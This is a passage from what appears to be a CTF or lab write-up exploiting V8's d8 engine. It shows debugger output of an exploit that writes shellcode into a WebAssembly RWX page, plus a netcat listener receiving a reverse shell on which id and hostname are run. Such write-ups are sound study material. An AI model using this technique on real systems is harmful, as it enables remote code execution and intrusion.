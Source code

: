 Start `nc` on kali and update `exploit.js`. Now I’ll run it in `d8`:

```

gef➤  run --allow-natives-syntax exploit.js --shell
Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7f05e643e700 (LWP 67861)]
[*] Creating WASM RWX page
[+] Found pointer to wasm_instance: 0x82112a5
[+] Found address of rwx page: 0x8ac78c42000
[*] Copying shellcode tp rwx page
[*] Executing shellcode...
[Thread 0x7f05e643e700 (LWP 67861) exited]
process 67857 is executing new program: /usr/bin/dash

```

It hangs here, but at `nc`, there’s a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.1.1.163.
Ncat: Connection from 10.1.1.163:40672.
id
uid=1000(df) gid=1000(df) groups=1000(df),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),998(vboxsf)
hostname
buntu

```

I could also run it outside of `gdb`, which is a good check to make sure I removed any `%DebugPrint` calls, which will fail without `--allow-natives-syntax`:

```

df@buntu:~/v8$ out.gn/x64.release/d8 exploit2.js 
[*] Creating WASM RWX page
[+] Found pointer to wasm_instance: 0x82112a5
[+] Found address of rwx page: 0x215ea6e9d000
[*] Copying shellcode tp rwx page
[*] Executing shellcode...

```

#### Remote Shellcode

I’ll do the same thing, this time with my HTB Tun0 IP:
